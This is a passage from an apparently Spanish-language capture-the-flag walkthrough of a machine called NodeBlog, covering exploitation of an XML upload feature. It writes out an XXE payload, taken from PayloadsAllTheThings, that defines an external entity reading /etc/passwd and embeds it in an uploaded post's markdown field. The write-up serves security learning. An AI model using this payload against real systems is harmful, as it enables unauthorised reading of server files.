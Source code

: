 

## [](#header-2)Explotación

Vemos que ha parseado la información que hemos puesto en el archivo XML. Esto es peligroso porque puede acontecer un XXE que es una inyección de entidad externa XML. Buscamos en la web como explotar dicha vulnerabilidad, en la página de github de [Payloads all the things](https://github.com/swisskyrepo/PayloadsAllTheThings) tenemos bastantes para jugar.

Si encontramos a la sección de XXE, encontramos lo siguiente:
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
```

Vamos a agregarlo a nuestro xml:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<post>
<title>archivo xml</title>
<description>Description</description>
<markdown> &xxe;</markdown>
</post>
```

En la sección de markdown agregamos **&xxe;** para llamar la entidad y hacer que se acontezca el XXE, si subimos el archivo observamos:

![](/imagenes/NodeBlog/node11.png)
